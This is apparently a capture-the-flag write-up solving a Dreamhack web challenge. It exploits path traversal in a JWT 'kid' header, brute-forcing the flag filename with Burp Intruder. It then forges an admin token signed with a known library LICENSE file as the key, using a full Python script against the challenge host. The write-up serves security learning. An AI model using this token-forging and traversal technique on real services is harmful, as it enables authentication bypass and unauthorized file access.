 # solution

This is hard challenge for me (an newbiee). There are lot of file we need to read carefully. First i will give the overview to get the flag, we need to access two urls below to get full flag:
![alt text](image.png)<br>
I will try to bypass each url one by one, first is **/flag**. In jwt we need two things **filename not undefined and the dir of flag.txt after change its name**
![alt text](image-1.png)<br>
we know the dir but dont know the name of flag.txt after changing. We can handle it with intruder's burpsuite.
**Note:** the url we are in is managed by index.js, if we use **/cat** then cat.js . And we are in dir **/keys** it will helpful when you choose payload to use below.
![alt text](image-2.png)<br>
take a close look on index.js

```
const filename = req.query.fn;
        if (filename !== undefined) {
            const token = await sign(filename);
            return res.send(`Hey this is new token ${token}`);
        }
```

So we can make a new token by using fn parameter and existing file. The jwt code have **kid** field. My experience said its some kinds of lfi so i try with fn parameter.
![alt text](image-3.png)<br>
![alt text](image-4.png)<br>
![alt text](image-5.png)<br>
hmm so i can lfi to the dir i want. Then i have a payload for this ( you use intruder for two characters in quotation marks)

```
../../../../../../home/cat/deploy/flag{12}.txt
```

![alt text](image-6.png)<br>
access /flag url with this jwt, you can get part one of the flag.
![alt text](image-7.png)<br>

The next part is quite differcult for me, i dont really know how to bypass this url. I used some methods like ( brute force key, use none key,...) but nothing helpful. After get some hints, i know that in the archive file that i download have a file that have secret key, so i can use that file to make my own jwt code. Dir for that file is /node_modules/jsonwebtoken/LICENSE. Here the paython code to get the remain flag.

```
import jwt
import string
import requests

SECRET_KEY = """The MIT License (MIT)

Copyright (c) 2015 Auth0, Inc. <support@auth0.com> (http://auth0.com)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
"""

headers = {"kid": "../node_modules/jsonwebtoken/LICENSE"}
data = {
  "filename": "../node_modules/jsonwebtoken/LICENSE",
  "username": "cat_master",
  "iat": 1707707182
}
FLAG_2_TOKEN = jwt.encode(data, SECRET_KEY, headers=headers, algorithm="HS256")
print(FLAG_2_TOKEN)

target_url = "http://host3.dreamhack.games:22212"
res = requests.get(f"{target_url}/cat/admin", cookies={"session": f"{FLAG_2_TOKEN}"})

print(res.text)
```

![alt text](image-8.png)<br>
